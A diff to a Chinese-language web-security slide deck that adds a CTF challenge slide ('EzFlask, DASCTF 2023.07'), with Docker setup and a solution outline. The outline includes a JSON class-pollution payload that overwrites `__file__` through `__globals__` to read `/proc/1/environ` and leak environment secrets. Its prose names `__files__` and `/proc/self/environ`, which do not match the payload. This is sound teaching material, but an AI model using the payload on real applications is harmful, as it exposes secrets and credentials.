

Before and after one commit to mix-archive/web-security-slides, a Markdown page: slides.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update challenge from Sanic to EzFlask for DASCTF 2023.07, including Docker setup instructions and detailed exploitation strategy for class pollution vulnerabilities.

````diff
--- a/slides.md
+++ b/slides.md
@@ -2310,4 +2310,41 @@ print(app.secret_key) #> Polluted
 
 ---
 
-### 题目：Sanic （CISCN 2024 初赛）
+### 题目：EzFlask (DASCTF 2023.07)
+
+使用提供的容器镜像启动服务：
+
+```bash
+docker load -i ezflask.tar
+docker run -d -p 8000:8000 ezflask
+```
+
+如何使用先前提到的漏洞，得到 Flag?
+
+---
+
+#### 解题思路
+
+<v-clicks>
+
+- 很经典的 `merge` 函数污染，先通过 `__class__.check.__globals__` 拿到当前文件的全局变量。
+- 然后选择污染 `__files__` 变量指向的文件来进行读取。
+  - 在 Python 原本的实现中，`__files__` 变量指向的是当前文件的完整路径，但是可以覆写。
+  - Linux 系统中大概率存在 ProcFS，可以用来读取进程的环境变量、文件描述符、启动命令甚至内存。
+    - 当然只有有权限的用户才能访问
+- 所以只需要将 `__files__` 覆写为 `/proc/self/environ` 即可读取进程的环境变量，然后访问 `/` 端点即可获得环境变量中的 Flag：
+
+  ```json
+  {
+    "username": "a",
+    "password": "b",
+    "__class__": {
+      "check": {
+        "__globals__": {
+          "__file__": "/proc/1/environ"
+        }
+      }
+    }
+  }
+  ```
+
````
Also changed, not shown: other parts of slides.md (+1 -0 lines).
